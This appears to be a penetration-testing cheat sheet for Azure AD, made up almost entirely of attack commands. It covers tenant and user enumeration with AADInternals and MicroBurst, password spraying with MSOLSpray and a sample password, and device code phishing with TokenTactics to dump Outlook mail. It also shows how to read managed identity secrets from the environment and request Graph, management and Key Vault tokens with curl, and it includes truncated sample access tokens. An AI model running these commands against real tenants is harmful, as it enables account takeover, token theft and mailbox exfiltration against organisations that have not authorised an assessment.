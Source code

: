 # Azure AD Assessment
## Manual Recon
### Enumerate the tenant id
```http
https://login.microsoftonline.com/example.onmicrosoft.com/.well-known/open
id-configuration
```
## Recon
```powershell
# Get all the information 
Import-Module .\AADInternals\AADInternals.psd1
$DomainName = "example.onmicrosoft.com"
Invoke-AADIntReconAsOutsider -DomainName $DomainName

# Enumerate Subdomains
Import-Module .\MicroBurst.psm1

# Enumerate all subdomains for an organization specified using the '-Base' parameter
Invoke-EnumerateAzureSubDomains -Base example -Verbose

# Validate if account exists
Invoke-AADIntUserEnumerationAsOutsider -username paul@example.onmicrosoft.com

# Enumerate valid Usernames
cat C:\tools\usernames.txt | Invoke-AADIntUserEnumerationAsOutsider

# Spray Accounts
# Usernames.txt should contain accounts with the fqdn e.g., karim@example.onmicrosoft.com
Invoke-MSOLSpray -UserList .\usernames.txt -Password Winter2022
```

## Device Code phising
```powershell
Import-Module .\TokenTactics-main\TokenTactics.psd1   

# Generate the device code and user code
Get-AzureToken -Client MSGraph

# Dump Outlook using the access token
Dump-OWAMailboxViaMSGraphApi -AccessToken $response.access_token -mailFolder
```

## Abusing Managed Identities
```powershell
# Extract the MSI_SECRET and MSI_ENDPOINT values from env. variables
env | grep MSI

# Query the Identitiy endpoint for GraphAPI, AzureVault and Management access tokens
curl "$IDENTITY_ENDPOINT?resource=https://graph.windows.net/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER

$mgmtToken = 'eyJ0eXAiOiJKV1QiLX9rsVtX99Rk...[SNIP]...BQXTOxQ8GYK8QvIV7ZuwGjlyc9iL7Q'

$graph = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJ...[SNIP]...H8PmkZf3tTKd57dg'

```